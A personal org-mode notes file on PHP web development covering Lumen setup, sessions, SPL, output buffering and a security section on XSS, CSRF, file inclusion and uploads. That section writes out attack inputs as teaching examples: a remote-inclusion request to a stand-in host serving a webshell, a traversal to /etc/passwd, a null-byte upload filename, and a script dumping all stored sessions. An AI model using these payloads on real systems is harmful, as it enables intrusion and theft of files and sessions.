PHP's pathinfo() function returns an associative array containing the basename,
dirname, extension and (from PHP 5.2.0) the filename without the extension.

#+begin_src php
print_r(pathinfo($path));
will echo

Array
(
    [dirname] => /var/www/mywebsite/htdocs/images
    [basename] => myphoto.jpg
    [extension] => jpg
    [filename] => myphoto
)
#+end_src 

To get just the extension you could do something like this, assuming you would
rather save the extension to a separate variable rather than use the returned
associative array:

#+begin_src php 
$pathinfo = pathinfo($path);
$extension = $pathinfo['extension'];
#+end_src 

** Get the directory name with dirname()
#+begin_src php 
echo dirname($path)
#+end_src 

* lumen
** lumen on apache
install a lumen app in */var/www*

#+begin_src shell
$ lumen new cms.app
#+end_src
 
make your storage folder writable

#+begin_src shell
$ sudo chmod -R 777 storage
#+end_src
 
create a virtual host file

#+begin_src shell
$ cp /ect/apache2/sites-available/000-default.conf /etc/apache2/sites-available/cms.conf
#+end_src
 
here we use a different port for listening incoming requests for this *VirtualHost*:

#+begin_src
<VirtualHost *:8081>
#...
DocunemtRoot /var/www/cms.app/public
<Directory /var/www/cms.app/public>
   AllowOverride all
   # other options
</Directory>
#...
</VirtualHost>
#+end_src

change *ports.conf* to listen to port 8081 by adding *Listen 8081* 
to */etc/apache2/ports.conf* file.

now we have to make the *VirtualHost* active by running *a2ensite*.

#+begin_src shell
$ sudo a2ensite cms.conf
#+end_src
 
restart the service for the new settings to take effect.

#+begin_src shell
$ sudo service apache2 restart   
#+end_src
 
https://httpd.apache.org/docs/2.4/vhosts/examples.html
https://gist.github.com/dbaeck/89d0b52d9d3d2777a96f
https://www.digitalocean.com/community/tutorials/how-to-set-up-apache-virtual-hosts-on-ubuntu-14-04-lts
https://www.digitalocean.com/community/questions/what-is-the-correct-folder-to-put-my-website-files-var-www-or-var-www-html
http://tecadmin.net/install-laravel-framework-on-ubuntu/
** installing globally
install the lumen-intaller

#+begin_src shell
$ composer global require "laravel/lumen-installer"
#+end_src

add the lumen binary to path. It can be found at:

 - *~/.composer/vendor/bin*
 - *~/.config/composer/vendor/bin*

call like this ~$ lumen new blog~ .

** PHP dependencies

#+begin_src shell
$ sudo apt-get install php7.0-zip 
#+end_src

** artisan
*** create a migration

#+begin_src 
$ php artisan make:migration create_books_table --create=books
#+end_src 

*** commit migration to db
    
#+begin_src shell
$ php artisan migrate
#+end_src 

*** Refreshing the Schema and Seeding the Database

#+begin_src shell 
$ composer dump-autoload
$ php artisan migrate:refresh
$ php artisan db:seed
#+end_src 

** middleware
Middleware provides a way to filter
incoming HTTP requests before a defined route handles the request. You can use middleware to do any
number of things, like authentication, validating a signed request, and CORS support, to name a few.
Middleware classes are typically created in the app/Http/Middleware path by convention

* elqoquent
** eloquent postgres json type
In your migrations you can do something like:

#+begin_src php
$table->json('field_name');
#+end_src
 
And in you model cast it to JSON by adding the $casts property like so:

#+begin_src php
class SomeModel extends Model
{
    protected $casts = [
        'field_name' => 'json'
    ];
}
#+end_src

* installation
** php packages

#+begin_src shell
$ sudo apt-get install libapache2-mod-php    # for running php in apache2
#+end_src

** phpstorm xdebug

#+begin_src shell
$ sudo apt-get install php-xdebug
#+end_src

to enable for php storm add =xdebug.remote_enable=1= to ~php.ini~.

https://confluence.jetbrains.com/display/PhpStorm/Zero-configuration+Web+Application+Debugging+with+Xdebug+and+PhpStorm
https://www.jetbrains.com/phpstorm/marklets/

* session handling
** starting a session
You may start a session manually with session_start, or you can
configure PHP to automatically start sessions with the
session.auto_start directive in php.ini.

#+begin_src php
session_start() !== false or die('could not start session');
#+end_src

** session variables example
   
#+begin_src php
<?php
    //start session
    session_start();

    //initialize a set of session variables
    if(!isset($_SESSION['a']))
    {
        print("Initializing Session<br>");

        $_SESSION['a'] = 'Session Var A';
        $_SESSION['b'] = 123.45;
        $_SESSION['c'] = 0;
    }

    //update session with access count
    $_SESSION['c']++;

    print("Access count: " . $_SESSION['c'] . "<br>");

    print("Session Dump: " . session_encode() . "<br>");
?>
#+end_src

** custom session handler

#+begin_src php
<?php
    class mySession
    {
        //prefix with which to mark session files
        var $mark;

        //path for storing session files
        var $path;

        //name of session cookie
        var $name;

        function mySession($mark='mySession_')
        {
            $this->mark = $mark;
        }

        function getFilePath($id)
        {
            return($this->path . '/' . $this->mark . $id);
        }

        function open($path, $name)
        {
            $this->path = $path;
            $this->name = $name;

            return(TRUE);
        }

        function close()
        {
            return(TRUE);
        }

        function read($id)
        {
            if($fp = @fopen(getFilePath($id), "r"))
            {
                return(fread($fp,
                       filesize($this->getFilePath($id))));
            }
            else
            {
                return("");
            }
        }

        function write($id, $data)
        {
            if($fp = @fopen($this->getFilePath($id), "w"))
            {
                return(fwrite($fp, $data));
            }
            else
            {
                return(FALSE);
            }
        }

        function destroy($id)
        {
            return(@unlink($this->getFilePath($id)));
        }

        function garbage($lifetime)
        {
            $d = dir($this->path);

            while($f = $d->read())
            {
                //file begins with mark and it's too old
                if((strpos($f, $this->mark) == 0) AND
                    (time() > (fileatime($f) + $lifetime)))
                {
                    unlink("$this->path/$f");
                }

            }
            $d->close();
            return(TRUE);
        }
    }

    $s = new mySession();

    session_set_save_handler(
        array($s, 'open'),
        array($s, 'close'),
        array($s, 'read'),
        array($s, 'write'),
        array($s, 'destroy'),
        array($s, 'garbage')
        );

    //start session
    session_start();

    //initialize a set of session variables
    if(!isset($_SESSION['a']))
    {
        print("Initializing Session<br>");

        $_SESSION['a'] = 'Session Var A';
        $_SESSION['b'] = 123.45;
        $_SESSION['c'] = 0;
    }

    //update session with access count
    $_SESSION['c']++;

    print("Access count: " . $_SESSION['c'] . "<br>");

    print("Session Dump: " . session_encode() . "<br>");
?>
#+end_src

** ending a session
*** intro   
use =session_destroy()= function.  

Keep in mind that ending a session
doesn't make the values from that session unavailable to the rest of
the currently executing PHP page.

#+begin_src php
<?php
session_start();
// Do some miscellaneous work
$_SESSION['username'] = 'Michele';
// Logout of the site
session_destroy();
echo "At this point we can still see the value of username as
".$_SESSION['username']."<br />";
$_SESSION = array();
echo "Now the value of username is blank: ".$_SESSION['username'];
?>
#+end_src

*** example #1
#+begin_src php
function closeSession()
{
//this empties the $_SESSION[] array
$_SESSION = array();
//find the name of current session (if there is one), and then remove it
//from user's computer
if (session_id() != "" || isset($_COOKIE[session_name()] ))
  setcookie(session_name(), '', time() - 3600, '/');
session_destroy();
}
#+end_src 

** Exposed Session Data 
   
 #+begin_src php
 #!/usr/bin/env php
 <?php

     header('Content-Type: text/plain');
     session_start();

     $path = ini_get('session.save_path');
     $handle = dir($path);

     while ($filename = $handle->read())
     {
       if (substr($filename, 0, 5) == 'sess_')
       {
         $data = file_get_contents("$path/$filename");

         if (!empty($data))
         {
           session_decode($data);
           $session = $_SESSION;
           $_SESSION = array();
           echo "Session [" . substr($filename, 5) . "]\n";
           print_r($session);
           echo "\n--\n\n";
         }
       }
     }

 ?>  
 #+end_src

** making sure session data is not lost after redirect

call =exit()= after redirect.
use =session_write_close()=

** check for session status
   
#+begin_src php
function is_session_started()
{
    if ( php_sapi_name() !== 'cli' ) {
        if ( version_compare(phpversion(), '5.4.0', '>=') ) {
            return session_status() === PHP_SESSION_ACTIVE ? TRUE : FALSE;
        } else {
            return session_id() === '' ? FALSE : TRUE;
        }
    }
    return FALSE;
}

// Example
if ( is_session_started() === FALSE ) session_start();
?>
#+end_src

** delete a single item of ~$_SESSION~
To remove a specific variable from the session use:
#+begin_src php 
session_unregister('variableName');
# or
unset($_SESSION['variableName']);
#+end_src

** session security
*** using user's IP and USER_AGENT
#+begin_src php
$_SESSION['ip'] = $_SERVER['REMOTE_ADDR'];
$_SESSION['ua'] = $_SERVER['HTTP_USER_AGENT'];
// now each time you load session variables, perform a quick security at the same time
session_start();
if($_SESSION['ip'] != $_SERVER['REMOTE_ADDR']  ||
    $_SESSION['ua']  != $_SERVER['HTTP_USER_AGENT'])
{
  closeSession();
}
#+end_src

** Changing allowable session idle time 
#+begin_src php 
<?php
ini_set('session.gc_maxlifetime',600'); // 600 seconds =  = ten minutes
session_start( );

// If you wish to know what the current timeout period is, you can display it using the following:
echo ini_get('session.gc_maxlifetime');
?>
#+end_src 

** Changing the expired session cleanup probability 
xpired sessions don't actually get wiped out instantly after 24 minutes elapses.
Here's how it really works: at the beginning of any request that uses sessions
(because the page calls session_start( ) or session.auto_start is on), there is
a 1% chance that the PHP interpreter scans through all of the sessions on the
server and deletes any that are expired. "A 1% chance" sounds awfully
unpredictable for a computer program. It is. But that randomness makes things
more efficient. On a busy site, searching for expired sessions to destroy at the
beginning of every request would consume too much server power.

#+begin_src php
<?php
ini_set('session.gc_probability',100); // 100% : clean up on every request
session_start( );
?>
#+end_src

* SPL
** Available objects in SPL
   
#+begin_src php
<?php
foreach(spl_classes() as  $k=>$v){
    echo nl2br($v."\n");
}
?>
#+end_src
** iterators
*** LimitIterator
The LimitIterator is one of the easiest SPL iterators to use. It determines where to start
the loop and how many times it should run. The LimitIterator constructor takes three
arguments: the array or object you want to loop through, the starting point (counting
from zero), and the number of times the loop is to run.

#+begin_src php
$numbers = array(5, 10, 8, 35, 50);
// Prepare the array for use with an iterator
$iterator = new ArrayIterator($numbers);
// Pass the converted array to the LimitIterator
$limiter = new LimitIterator($iterator, 0, 2);
// Loop through the LimitIterator object
foreach ($limiter as $number) {
    echo $number . '<br />';
}
/*output
5
10
*/
#+end_src

* using =include_path= to manage large projects

You can add include_path configuration option in the php.ini file. You
can use include_path to define a list of directories that will be
searched when include() type functions specify relative
paths. Directories should be separated by colons (semicolons on
Windows platforms), as shown here:

#+begin_src
include_path=".:/home/mary/php_lib:/usr/local/lib/php"
#+end_src
 
if you don't have access to php.ini file you can set the include_path option in .htaccess file:

#+begin_src
php_value include_path /home/mary/php_lib
#+end_src

you could also use the ini_set() function to set the option at runtime:
#+begin_src php
ini_set("include_path", "/home/mary/php_lib");
#+end_src
 
As of PHP 4.3, she can use the set_include_path() function to achieve the same effect, like so:

#+begin_src php
set_include_path( "/home/mary/php_lib" );
#+end_src
 
* output buffering
** intro
   
The idea of output buffering is to store all the content that has to
be outputted in a memory buffer before outputting the whole
buffer. This has the following advantages: 
 - I/O operations are reducedto one which is a great performance improvement
 - Content can be manipulated and parsed before outputting it to the browser
 - The I/O operation can be done sequentially and quickly

The downside to this is that the client has to wait until the script
completes. Therefore, depending on the application design and the
script execution time, the user might come to the conclusion that the
system crashed and they will close the browser or do something else
that would not be quite what we want.

** detect if output buffering is turned on?
   
#+begin_src php
if(ob_get_level() > 0){
   //there are some buffers active.
}

$ php -d output_buffering=1 -r'var_dump(ob_get_level());'
int(1)
$ php -d output_buffering=0 -r'var_dump(ob_get_level());'
int(0)
#+end_src
 
It does however check whether there is an output buffer active, not
what the actual setting of PHP itself is. A manual ob_start() (or more
then one) will also increase the level.

** example
   
#+begin_src php
<?php
ob_start();

echo("This is a test\n");
echo("More content\n");

ob_end_flush();
?>
#+end_src

* request
** check if request is ajax?
   
#+begin_src php
function is_ajax() {
  return isset($_SERVER['HTTP_X_REQUESTED_WITH']) && strtolower($_SERVER['HTTP_X_REQUESTED_WITH']) == 'xmlhttprequest';
}
#+end_src

* page generation time
** solution1

#+begin_src php
<?php
$time = microtime();
$time = explode(' ', $time);
$time = $time[1] + $time[0];
$start = $time;
?>

<?php
$time = microtime();
$time = explode(' ', $time);
$time = $time[1] + $time[0];
$finish = $time;
$total_time = round(($finish - $start), 4);
echo 'Page generated in '.$total_time.' seconds.';
?>
#+end_src

** solution2
   
#+begin_src php

function microtime_float()
{
    list($usec, $sec) = explode(" ", microtime());
    return ((float)$usec + (float)$sec);
}

$time_start = microtime_float();

// Sleep for a while
usleep(100);

$time_end = microtime_float();
$time = $time_end - $time_start;

echo "Did nothing in $time seconds\n";
#+end_src

** solution3

=microtime()= and =REQUEST_TIME_FLOAT= (as of PHP 5.4.0)

#+begin_src php

// Randomize sleeping time
 usleep(mt_rand(100, 10000));
 
// As of PHP 5.4.0, REQUEST_TIME_FLOAT is available in the $_SERVER superglobal array.
// It contains the timestamp of the start of the request with microsecond precision.
$time = microtime(true) - $_SERVER["REQUEST_TIME_FLOAT"];

echo "Did nothing in $time seconds\n";
#+end_src

* autoloading
** intro
   
Autoloading is when we tell PHP where to look for our class files when it needs
a class declaration that it’s yet to see.

* magic constants
** summary
#+begin_src php
// Get current class name. Must be used inside a class declaration.
echo "Current class name is " . __CLASS__;

// Get full path directory of a file
echo "Current directory is " . __DIR__;

    // Typical usage
    require __DIR__ . '/vendor/autoload.php';

// Get full path of a file
echo "Current file path is " . __FILE__;

// Get current function name
echo "Current function name is " . __FUNCTION__;

// Get current line number
echo "Current line number is " . __LINE__;

// Get the name of the current method. Only returns a value when used inside a trait or object declaration.
echo "Current method is " . __METHOD__;

// Get the name of the current namespace
echo "Current namespace is " . __NAMESPACE__;

// Get the name of the current trait. Only returns a value when used inside a trait or object declaration.
echo "Current trait is " . __TRAIT__;

#+end_src

** File & Directory Constants
*** Current file

You can get the name of the current PHP file (with the absolute path) using the
__FILE__ magic constant. This is most often used as a logging/debugging
technique.
#+begin_src php 
echo "We are in the file:" , __FILE__ , "\n";
#+end_src 

*** Current directory

To get the absolute path to the directory where the current file is located use the __DIR__ magic constant.
#+begin_src php 
echo "Our script is located in the:" , __DIR__ , "\n";
#+end_src 

To get the absolute path to the directory where the current file is located, use dirname(__FILE__).

#+begin_src php 
echo "Our script is located in the:" , dirname(__FILE__) , "\n";
#+end_src 

Getting current directory is often used by PHP frameworks to set a base directory:
#+begin_src php 
// index.php of the framework
define(BASEDIR, __DIR__); // using magic constant to define normal constant
// somefile.php looks for views:

$view = 'page';
$viewFile = BASEDIR . '/views/' . $view;
#+end_src 

*** Separators

Windows system perfectly understands the / in paths so the DIRECTORY_SEPARATOR is used mainly when parsing paths.
Besides magic constants PHP also adds some fixed constants for working with paths:

 - ~DIRECTORY_SEPARATOR~ constant for separating directories in a path. Takes
   value / on *nix, and \ on Windows. The example with views can be rewritten with:
#+begin_src php 
$view = 'page';
$viewFile = BASEDIR . DIRECTORY_SEPARATOR .'views' . DIRECTORY_SEPARATOR . $view;
#+end_src 

 - Rarely used ~PATH_SEPARATOR~ constant for separating paths in the $PATH
   environment variable. It is ; on Windows, : otherwise

** Difference between __FUNCTION__ and __METHOD__
__FUNCTION__ returns only the name of the function whereas __METHOD__ returns
the name of the class along with the name of the function:
#+begin_src php
<?php

class trick
{
    public function doit()
    {
        echo __FUNCTION__;
    }

    public function doitagain()
    {
        echo __METHOD__;
    }
}

$obj = new trick();
$obj->doit(); // Outputs: doit
$obj->doitagain();  // Outputs: trick::doitagain
#+end_src 

** Difference between __CLASS__, get_class() and get_called_class()
__CLASS__ magic constant returns the same result as get_class() function called
without parameters and they both return the name of the class where it was
defined (i.e. where you wrote the function call/constant name ).

In contrast, get_class($this) and get_called_class() functions call, will both
return the name of the actual class which was instantiated:

#+begin_src php
<?php

class Definition_Class {

  public function say(){
     echo '__CLASS__ value: ' . __CLASS__ . "\n";
     echo 'get_called_class() value: ' . get_called_class() . "\n";
     echo 'get_class($this) value: ' . get_class($this) . "\n";
     echo 'get_class() value: ' . get_class() . "\n";
  }
  
}

class Actual_Class extends Definition_Class {}

$c = new Actual_Class();
$c->say();
// Output:
// __CLASS__ value: Definition_Class
// get_called_class() value: Actual_Class
// get_class($this) value: Actual_Class
// get_class() value: Definition_Class
#+end_src 

* security
** Cross-site scripting
*** intro   
For cross-site scripting—commonly abbreviated as XSS—the attack vector targets
an area where a user-supplied variable is included in application output, but not
properly escaped. This allows an attacker to inject a client-side script of their choice
as part of that variable’s value.
Here’s an example of code vulnerable to this type of attack:

#+begin_src html
<form action=”<?php echo $_SERVER['PHP_SELF']; ?>”>
<input type=”submit” value=”Submit” />
</form>
#+end_src 

*fix*
Compared to the attack itself, the fix is surprisingly simple: escape output from PHP
code to prevent the attacker from being able to inject their code in the first place.
This looks like the following:

#+begin_src html
<form action=”<?php echo htmlentities($_SERVER['PHP_SELF']); ?>”>
  <input type=”submit” value=”Submit” />
</form>
#+end_src 

*** How To Avoid $_SERVER["PHP_SELF"] Exploits?
~$_SERVER["PHP_SELF"]~ exploits can be avoided by using the ~htmlspecialchars()~
function.

The form code should look like this:
#+begin_src php
<form method="post" action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]);?>">
#+end_src 

The ~htmlspecialchars()~ function converts special characters to HTML entities.
Now if the user tries to exploit the PHP_SELF variable, it will result in the
following output:

#+begin_src 
<form method="post" action="test_form.php/&quot;&gt;&lt;script&gt;alert('hacked')&lt;/script&gt;">
#+end_src 

The exploit attempt fails, and no harm is done!
** Cross-site Request Forgery(CSRF)
*** intro   
a Cross-site Request Forgery, often abbreviated to CSRF.
The purpose of this type of attack is to have a victim send an HTTP request to a
specific website, taking advantage of the victim’s established identity with that
website.

*fix*
 - Don't use GET for creation,modification or deletion.

the specification for the HTTP protocol, which states the following:"the
convention has been established that the GET and HEAD methods SHOULD NOT have
the significance of taking an action other than retrieval."

 - use CSRF token

This change(use of POST method) doesn’t preclude the possibility that an
attacker might duplicate this HTML on another website. When a victim submits the
form, the request will include their session cookie for the domain in the form
action.

To address this, you can take advantage that a normal user will view the
form before submitting it by including a field with a random value, known as a
nonce or CSRF token. The token will also be stored in the user’s session, and
compared to the form value when the form is submitted to confirm that the values
are identical. The modified script to output the form looks as follows:

#+begin_src php
<?php
session_start();
if ($_POST && $_POST['token'] == $_SESSION['token']) {
  // process form submission
} else {
  $token = uniqid(rand(), true);
  $_SESSION['token'] = $token;
?>
<form method=”post” action=”http://example.com/oneclickpurchase.php”>
<input type=”hidden” name=”token” value=”<?php echo $token; ?>” />
<input type=”hidden” name=”product_id” value=”12345” />
<input type=”submit” value=”1-Click Purchase” />
</form>
<?php
}
#+end_src 

*** example #1
Add a hidden form field with a one-time token, and store this token in the user’s session:

#+begin_src php

<?php
session_start();
$_SESSION['token'] = md5(uniqid(mt_rand(), true));
?>

<form action="buy.php" method="POST">
<input type="hidden" name="token" value="<?php echo $_SESSION['token']; ?>" />
<p>Stock Symbol: <input type="text" name="symbol" /></p>
<p>Quantity: <input type="text" name="quantity" /></p>
<p><input type="submit" value="Buy Stocks" /></p>
</form>
#+end_src 

When you receive a request that represents a form submission, check the tokens to be sure they match:

#+begin_src php

<?php

session_start();

if ($_POST['token'] != $_SESSION['token'] ||
    !isset($_SESSION['token'])) {
    /* Prompt user for password. */
} else {
    /* Continue. */
}

?>
#+end_src

** PHP version lookup
By default, PHP will tell the world what version of PHP you are using, e.g.
#+begin_src 
X-Powered-By: PHP/5.3.8
#+end_src 

To fix this you can either change ~php.ini~:
#+begin_src 
expose_php = off
#+end_src 

Or change the header:
#+begin_src php 
header("X-Powered-By: Magic");
#+end_src 

Or if you'd prefer a htaccess method:
#+begin_src 
Header unset X-Powered-By
#+end_src 

If either of the above methods do not work, there is also the header_remove()
function that provides you the ability to remove the header;
#+begin_src php 
header_remove('X-Powered-By');
#+end_src 

If attackers know that you are using PHP and the version of PHP that you are
using, it's easier for them to exploit your server.

** disabling error reporting
It is good practice to avoid displaying potential error messages which will
reveal information about your system, like for example your directory tree.
Solution
Turn them off before making your website visible to the outside world.
#+begin_src 
ini_set("display_errors", "0");
#+end_src 
Or change them directly in the php.ini.
#+begin_src 
display_errors = 0
#+end_src 

** Remote File Inclusion

Remote File Inclusion (also known as RFI) is a type of vulnerability that allows
an attacker to include a remote file.

This example injects a remotely hosted file containing a malicious code:
#+begin_src php 
<?php
include $_GET['page'];
/vulnerable.php?page=http://evil.example.com/webshell.txt?
#+end_src 

*Local File Inclusion*

Local File Inclusion (also known as LFI) is the process of including files on a
server through the web browser.
#+begin_src php 
<?php
$page = 'pages/'.$_GET['page'];
if(isset($page)) {
    include $page;
} else {
    include 'index.php';
}
/vulnerable.php?page=../../../../etc/passwd
#+end_src 

*Solution to RFI & LFI:*

It is recommended to only allow including files you approved, and limit to those only.
#+begin_src php 
<?php
$page = 'pages/'.$_GET['page'].'.php';
$allowed = ['pages/home.php','pages/error.php'];
if(in_array($page,$allowed)) {
    include($page);
} else {
    include('index.php');
}
#+end_src 

** Stripping Tags
~strip_tags~ is a very powerful function if you know how to use it. However some
people are oblivious of its full usage.

*Basic Example*
#+begin_src php 
$string = '<b>Hello,<> please remove the <> tags.</b>';

echo strip_tags($string);
#+end_src 
Raw Output
#+begin_src 
Hello, please remove the tags.
Allowing Tags
#+end_src 

Say you wanted to allow a certain tag but no other tags, then you'd specify that
in the second parameter of the function. This parameter is optional. In my case
I only want the <b> tag to be passed through.
#+begin_src php 
$string = '<b>Hello,<> please remove the <br> tags.</b>';

echo strip_tags($string, '<b>');
#+end_src 

*Raw Output* 
#+begin_src 
<b>Hello, please remove the  tags.</b>
#+end_src 

*Notice(s)*

HTML comments and PHP tags are also stripped. This is hardcoded and can not be
changed with allowable_tags.

In PHP 5.3.4 and later, self-closing XHTML tags are ignored and only
non-self-closing tags should be used in allowable_tags. For example, to allow
both <br> and <br/>, you should use:
#+begin_src php 
<?php
strip_tags($input, '<br>');
?>
#+end_src 

** Uploading files
If you want users to upload files to your server you need to do a couple of
security checks before you actually move the uploaded file to your web
directory.

*The uploaded data:*

This array contains user submitted data and is not information about the file
itself. While usually this data is generated by the browser one can easily make
a post request to the same form using software.
#+begin_src 
$_FILES['file']['name'];
$_FILES['file']['type'];
$_FILES['file']['size'];
$_FILES['file']['tmp_name'];
#+end_src 

 - name - Verify every aspect of it.
 - type - Never use this data. It can be fetched by using PHP functions instead.
 - size - Safe to use.
 - tmp_name - Safe to use.

*Exploiting the file name*

Normally the operating system does not allow specific characters in a file name,
but by spoofing the request you can add them allowing for unexpected things to
happen. For example, lets name the file:
#+begin_src 
../script.php%00.png
#+end_src 
Take good look at that filename and you should notice a couple of things.

 1 The first to notice is the ../, fully illegal in a file name and at the same
 time perfectly fine if you are moving a file from 1 directory to another, which
 we're gonna do right?

 2 Now you might thing you were verifying the file extensions properly in your
script but this exploit rely's on the url decoding, translating %00 to a null
character, basically saying to the operating system, this string ends here,
stripping off .png off the filename. So now I've uploaded script.php to another
directory, by-passing simple validations to file extensions. It also by-passes
.htaccess files disallowing scripts to be executed from within your upload
directory.

Getting the file name and extension safely

You can use pathinfo() to extrapolate the name and extension in a safe manner
but first we need to replace unwanted characters in the file name:
#+begin_src php
// This array contains a list of characters not allowed in a filename
$illegal   = array_merge(array_map('chr', range(0,31)), ["<", ">", ":", '"', "/", "\\", "|", "?", "*", " "]);
$filename  = str_replace($illegal, "-", $_FILES['file']['name']);

$pathinfo  = pathinfo($filename);
$extension = $pathinfo['extension'] ? $pathinfo['extension']:'';
$filename  = $pathinfo['filename'] ? $pathinfo['filename']:'';

if(!empty($extension) && !empty($filename)){
  echo $filename, $extension;
} else {
  die('file is missing an extension or name');
}
#+end_src 

While now we have a filename and extension that can be used for storing, I still
prefer storing that information in a database and give that file a generated
name of for example, md5(uniqid().microtime())
#+begin_src 
+----+--------+-----------+------------+------+----------------------------------+---------------------+
| id | title  | extension | mime       | size | filename                         | time                |
+----+--------+-----------+------------+------+----------------------------------+---------------------+
| 1  | myfile | txt       | text/plain | 1020 | 5bcdaeddbfbd2810fa1b6f3118804d66 | 2017-03-11 00:38:54 |
+----+--------+-----------+------------+------+----------------------------------+---------------------+
#+end_src 

This would resolve the issue of duplicate file names and unforseen exploits in
the file name. It would also cause the attacker to guess where that file has
been stored as he or she cannot specifically target it for execution.

*Mime-type validation*

Checking a file extension to determine what file it is is not enough as a file
may named image.png but may very well contain a php script. By checking the
mime-type of the uploaded file against a file extension you can verify if the
file contains what its name is referring to.

You can even go 1 step further for validating images, and that is actually opening them:
#+begin_src php 
if($mime == 'image/jpeg' && $extension == 'jpeg' || $extension == 'jpg'){
  if($img = imagecreatefromjpeg($filename)){
    imagedestroy($img);
  } else {
    die('image failed to open, could be corrupt or the file contains something else.');
  }
}
#+end_src 

You can fetch the mime-type using a build-in function or a class.

*White listing your uploads*

Most importantly, you should whitelist file extensions and mime types depending on each form.
#+begin_src php 
$whitelist = [
  'extensions' => [
    'png', 'gif', 'jpg', 'jpeg'
  ],
  'mimes' => [
    'image/png',
    'image/gif',
    'image/jpeg',
  ]
];

if(in_array($extension, $whitelist['extensions'])){
  if(in_array(mime_content_type($filename), $whitelist['mimes']){
    // safe to store.
  } else {
    die('file extension does not match mime');
  }
} else {
  die("Only '" . join(', ', $whitelist['extensions'])) . "' extensions are allowed");
}
#+end_src 

* apache =.htaccess= sample configuration
  
#+begin_src
RewriteEngine On
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-l
RewriteRule .* index.php [L,QSA]
#+end_src

The script tells Apache that whenever an HTTP request arrives and if
no physical file (!-f) or path (!-d) or symbolic link (!-l) can be
found, it should transfer control to index.php

* turn off DNS prefetching from individual documents

You can also turn off DNS Prefetching from individual documents, using the
http-equiv attribute on the <meta> element, like this:

#+begin_src html
<meta http-equiv="x-dns-prefetch-control" content="off">
 <!-- turns on dns prefetching -->
<meta http-equiv="x-dns-prefetch-control" content="off">
<!-- force the lookup of specific hostnames -->
<link rel="dns-prefetch" href="http://www.spreadfirefox.com/">
#+end_src 

* disable caching for a website

#+begin_src html
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate" />
<meta http-equiv="Pragma" content="no-cache" />
<meta http-equiv="Expires" content="0" />
#+end_src 

http://live.datatables.net/sadipaji/132/edit
* disable ajax browser caching
  
#+begin_src javascript
//prevents browser caching
$.ajaxSetup({ cache: false });
#+end_src
* csv
** Use PHP's fputcsv without writing to a file
PHP's fputcsv function is very useful for creating CSV files, but by default
will write out to a file. There are a couple of tricks to be able to keep it all
in memory or instead write the CSV data out directly to the web browser without
having to write your own custom functions.

*Array to CSV function using fputcsv*

This function takes an array and returns the correctly formatted CSV data as a
string using an in-memory buffer. It takes the same parameters as the fputcsv
function, passing them through to it, so it can be used in the same way as
fputcsv.
#+begin_src php
function array2csv($fields, $delimiter = ",", $enclosure = '"', $escape_char = "\\")
{
    $buffer = fopen('php://temp', 'r+');
    fputcsv($buffer, $fields, $delimiter, $enclosure, $escape_char);
    rewind($buffer);
    $csv = fgets($buffer);
    fclose($buffer);
    return $csv;
}
#+end_src 
Note that you can substitute php://temp for php://memory. The only difference
between the two is that php://memory will always store its data in memory,
whereas php://temp will use a temporary file once the amount of data stored hits
a predefined limit (the default is 2 MB).

Here's an example:
#+begin_src php
echo array2csv(array('apples', 'bananas', 'oranges', 'pears'));
//And the output:
//apples,bananas,oranges,pears
#+end_src 

*Writing the array straight out to the browser*
Instead of buffering the CSV data in memory, you can write it directly out to the data by using php://output instead of php://temp or php://memory:
#+begin_src php 
function array2csv($array)
{
    $output = fopen('php://output', 'w');
    fputcsv($output, $array);
    fclose($output);
}
#+end_src 

* query
  
#+BEGIN_SRC sql :engine postgresql  :cmdline -p 5432 -h 127.0.0.1 -U postgres -d test2
SELECT s,md5 from huge_data_table limit 10;
#+END_SRC 

#+RESULTS:

#+name: my-query
#+header: :engine postgresql
#+header: :dbhost 127.0.0.1
#+header: :dbuser postgres
#+header: :dbpassword jjj
#+header: :database test2
#+begin_src sql
SELECT s,md5 FROM huge_data_table limit 10;
#+end_src

#+RESULTS: my-query

* error handler

#+begin_src php
 <?php
    ini_set('error_reporting', E_ALL | E_STRICT);
    ini_set('display_errors', 'Off');
    ini_set('log_errors', 'On');
    ini_set('error_log', '/usr/local/apache/logs/error_log');
  ?>
  
// PHP also allows you to handle your own errors with the set_error_handler( ) function: 
    <?php
    set_error_handler('my_error_handler');
    ?>

// This allows you to define your own function (my_error_handler( )) to handle errors; the following is an example implementation: 
    <?php
    function my_error_handler($number, $string, $file, $line, $context)
    {
      $error = "=  ==  ==  ==  ==\nPHP ERROR\n=  ==  ==  ==  ==\n";
      $error .= "Number: [$number]\n";
      $error .= "String: [$string]\n";
      $error .= "File:   [$file]\n";
      $error .= "Line:   [$line]\n";
      $error .= "Context:\n" . print_r($context, TRUE) . "\n\n";
      error_log($error, 3, '/usr/local/apache/logs/error_log');
    }
?>
// This restricts errors to warnings.
<?php
    set_error_handler('my_warning_handler', E_WARNING);
 ?>
#+end_src 

* security
** disable =register_globals=
* bootstrap
** structure of page
*** settings of the viewing arena

#+begin_src html
<meta name="viewport"
      content="width=device-width, initial-scale=1" />
#+end_src

The zoom behavior can be turned off with no user-scalable=no.

*** Container
    
Bootstrap utilizes a container element to initiate the page and find a
basis for the grid.
*Containers can be used multiple times on the page, but should not be nested.*


#+begin_src html
<div class="container">
     ...
</div>
#+end_src

Alternatively, the class .container-fluid can be used, which always
uses the full width of the device:

#+begin_src html
1   <div class="container-fluid">
2     ...
3   </div>
#+end_src

*** Device Specific Definitions
    
#+begin_src
“xs” <= 544 px
“sm” <= 768 px
“md” <= 992 px
“lg” <= 1200 px
“xl” > 1200 px
1   @media (min-width: @screen-sm-min) { ... }
2
3   @media (min-width: @screen-md-min) { ... }
4
5   @media (min-width: @screen-lg-min) { ... }
#+end_src

*** Order Column

If individual columns have class styles such as .push-md- or pull-md-, they can be used,
even if different from their natural order. “Push” means pushing columns to the right,
while they are pulled to the left with “pull”.

#+begin_src html
1   <div class="row">
2     <div class="col-md-9 push-md-3">9 + 3 right</div>
3     <div class="col-md-3 pull-md-9">3 + 9 left</div>
4   </div>
#+end_src

** typography
*** Orientation
    
The alignment of text is up to your creative nature.

- text-left: Left aligned
- text-center: Text is centered
- text-right: Right aligned
- text-justify: Justified
- text-nowrap: Obstruction of upheaval

In addition, there are alignment variants that are only valid for certain viewports.

- text-xs-left: Left aligned when the viewport “xs” is used.
- text-xs-center: Text is centered when the viewport “xs” is used.
- text-xs-right: Right aligned when the viewport “xs” is used.
  
*** transformation
    
Transformations convert text from lowercase to uppercase and vice versa.

